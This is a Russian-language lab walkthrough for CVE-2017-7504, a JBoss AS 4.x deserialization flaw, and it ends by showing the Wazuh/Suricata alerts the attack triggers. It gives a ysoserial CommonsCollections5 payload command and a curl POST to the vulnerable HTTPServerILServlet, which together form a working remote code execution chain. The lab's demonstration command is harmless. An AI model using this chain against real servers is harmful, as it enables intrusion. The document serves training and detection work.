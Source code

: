 # CVE-2017-7504

CVE-2017-7504 является уязвимостью десериализации, уязвимыми являются JBoss AS 4.x и предыдущие версии. Принцип уязвимости. В JBoss AS 4.x и более ранних версиях файл HTTPServerILServlet.java уровня вызова JServer через HTTP в процессе реализации JBossMQ имеет уязвимость десериализации.

Злоумышленник может использовать эту уязвимость для выполнения произвольного кода со специальными сериализованными данными.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

Чтобы сгенерировать полезную нагрузку, нужно скачать [ysoserial](https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar) и выполнить данную команду

```
java -jar ysoserial-all.jar CommonsCollections5 "touch /tmp/success" > 1.ser
```

Если при генерации пэйлоада возникает подобная ошибка, нужно откатить версию Java

> Для генерации подойдет 11 версия&#x20;
>
> Чтобы откатить java к 11 версии, нужно найти пакет с помощью команды sudo apt search jdk и скачать его, а затем выполнить команду sudo update-alternatives --config java и sudo update-alternatives --config javac и выбрать 11 версию
>
>

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

После этого отправляем содержимое файла как тело POST-запроса

```
curl http://ваш-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @1.ser
```

Результатом эксплуатации является создание файла /tmp/success

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>
